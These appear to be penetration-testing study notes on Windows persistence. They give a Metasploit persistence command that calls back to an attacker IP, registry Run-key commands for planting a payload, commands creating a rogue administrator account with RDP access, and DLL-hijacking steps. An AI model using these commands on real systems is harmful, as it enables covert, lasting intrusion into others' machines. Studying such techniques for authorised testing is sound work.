     

*backdoor*

- Disadvantages of the backdoor it tries to connect back to same IP address unless we use hostnames.  
    [https://freedns.afraid.org/](https://freedns.afraid.org/), [https://www.zoneedit.com/dynamic-dns/](https://www.zoneedit.com/dynamic-dns/), [http://xname.org/](http://xname.org/).
- How it works?  
    Exploit the target > Upload the backdoor > Execute the file > Run it automatically at boot.
- Using metaspoloit we can automate this process with help of persistance module.  
    `run persistence -A -X -i 5 -p 8080 -r 192.168.102.147`  
    use `-h` parameter for help.  
    To verify: `reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v [uploaded paylaod name]`  
    `ls [uploaded folder name]` usually temp unless specified.  
    Then start a handler.
- Setting up backdoor manually
    - Create payload using msfvenom, Veil or BDF
    - `upload [path_to_payload.exe] [path_on_target]`
    - `reg setval -k [registry_key_path] -d "[value_of_the key]" -v [name_of_the_key]`  
        For example: `reg setval -k HKLM\\Software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\my_bd.exe" -v bd_name`  
          
        

*new user*

- Easy way to do is with `net user` and `net localgroup` command.  
    `net user EveUser EvePass /add`  
    `net localgroup "Administrators" EveUser /add`
- Then we can enable rdp and and add to rdp local group and connect via rdp with new username and password.

  

*DLL hijacking/Preloading*

- [DLL Preloading](https://support.microsoft.com/en-us/help/2389418/secure-loading-of-libraries-to-prevent-dll-preloading-attacks)
- [DLL Search order](https://docs.microsoft.com/en-gb/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)
    - The directory from which application was launched.
    - The C:\\Windows\\System32 directory
    - The 16-bit Windows system directory (ie, C:\\Windows\\System)
    - The Windows directory (C:\\windows)
    - The current directory at the time of execution
    - Any directories specified by the %PATH% environment variable
- Process Monitor  
    [process monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
    - Filer process name and also filter for "NAME NOT FOUND".
    - Identify the directory.
    - Drop in our infected dll file.
    - restart service or wait for restart of the services.  
          
        
